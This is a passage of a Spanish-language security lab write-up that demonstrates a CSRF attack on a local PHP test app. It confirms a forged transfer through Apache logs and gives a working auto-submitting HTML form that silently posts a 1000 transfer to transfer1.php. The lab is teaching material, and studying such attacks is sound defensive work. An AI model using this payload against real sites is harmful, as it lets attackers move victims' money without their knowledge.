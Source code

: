 #### Confirmación del ataque

Para confirmar que el ataque CSRF ocurrió, revisamos los logs de Apache (por ejemplo, ``/var/log/apache2/access.log`` o similar):

```bash
docker exec lamp-php83 /bin/bash -c "tail -5 /var/log/apache2/other_vhosts_access.log"
```

<p align="center">
  <img src="./images/Transaccion_no_legitima.png" alt="Confirmación de una transacción no legítima">
</p>
<p align="center"><em>Confirmación de una transacción no legítima</em></p>


Observamos en el log:

- Una solicitud ``GET`` a ``transfer.php?amount=1000`` proveniente de ``csrf_attack.html``.
- El servidor respondió con código ``200 OK``, indicando que la transacción fue exitosa.

Esto demuestra que ``transfer.php`` es vulnerable a CSRF al no validar el origen de las solicitudes ni utilizar tokens de protección.

#### Variante de ataque más realista

Podemos ocultar aún más el ataque utilizando un formulario automático para simular el comportamiento legítimo de la aplicación.

Archivo csrf_attack2.html:

```html
<!DOCTYPE html>
<html>
<body>
    <form action="http://localhost/transfer1.php" method="POST">
        <input type="hidden" name="amount" value="1000">
        <input type="submit">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```
- El formulario se envía automáticamente mediante JavaScript (``document.forms[0].submit()``).
- La víctima ni siquiera nota que se ha enviado una transferencia al visitar la página.
- Si la víctima accede mediante un enlace a esta página, se estaría haciendo la transferencia automáticamente.

Cuando el usuario realiza la acción, el sistema muestra:

<p align="center">
  <img src="./images/Transaccion_no_legitima2.png" alt="Segunda transferencia no legítima">
</p>
<p align="center"><em>Segunda transferencia no legítima</em></p>
